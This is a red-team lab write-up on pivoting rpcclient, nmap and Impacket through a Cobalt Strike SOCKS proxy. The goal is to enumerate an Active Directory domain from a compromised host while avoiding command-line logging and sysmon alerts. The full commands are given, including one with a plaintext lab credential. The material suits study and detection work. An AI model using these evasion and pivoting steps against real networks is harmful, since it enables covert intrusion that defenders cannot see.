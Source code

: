 # Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy (or any other post exploitation tool that supports socks proxying).&#x20;

In other words - it's possible to enumerate AD (or create/delete AD users, etc.) without the likes of:

* net user
* net user \<bla> /domain
* net user \<bla> \<bla> /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP       | What's behind                                                  |
| -------- | -------------------------------------------------------------- |
| 10.0.0.5 | attacker with kali and `rpcclient`                             |
| 10.0.0.2 | compromised Windows system `WS01`                              |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2  |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine (10.0.0.5) by issuing:

{% code title="attacker@cobaltstrike" %}
```
socks 7777
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-05 00-08-58.png>)

This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target (attacker ---> beacon ---> end target).

Let's see how this works by firstly updating the proxychains config file:

{% code title="attacker@kali" %}
```
nano /etc/proxychains.conf
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-20-21.png>)

### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:

{% code title="attacker@kali" %}
```
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```
{% endcode %}

![Victim (10.0.0.2) is enumerating DC (10.0.0.6) on behalf of attacker (10.0.0.5)](<../../.gitbook/assets/Screenshot from 2019-02-05 20-22-43.png>)

Moving on, same way, they can query info about specific AD users:

{% code title="attacker@kali" %}
```
queryuser spotless
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-34-33.png>)

Enumerate current user's privileges and many more (consult rpcclient for all available commands):

{% code title="attacker@kali" %}
```
enumprivs
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-34-42 (1).png>)

Finally, of course they can run nmap if needed:

{% code title="attacker@kali" %}
```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-36-48.png>)

### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif.&#x20;

This is what happens - attacker (10.0.0.5) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 (WS02) via the compromised (CS beacon) box 10.0.0.2 (WS01):

{% code title="attacker@kali" %}
```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```
{% endcode %}

The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:

![](<../../.gitbook/assets/Peek 2019-02-09 19-50.gif>)

Below further proves that the box 10.0.0.2 (WS01 which acted as proxy) did not generate any sysmon logs and the target box 10.0.0.7 (WS02) logged a couple of events, that most likely would not attract much attention from the blue teams:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 19-59-58.png>)

## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:

![](<../../.gitbook/assets/Peek 2019-02-05 20-24.gif>)

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-18-20.png>)

## References

{% embed url="https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html" %}

{% embed url="https://github.com/SecureAuthCorp/impacket/tree/master/examples" %}

{% embed url="https://www.cobaltstrike.com/help-socks-proxy-pivoting" %}

{% embed url="https://www.youtube.com/watch?v=l8nkXCOYQC4&index=19&list=WL&t=7s" %}

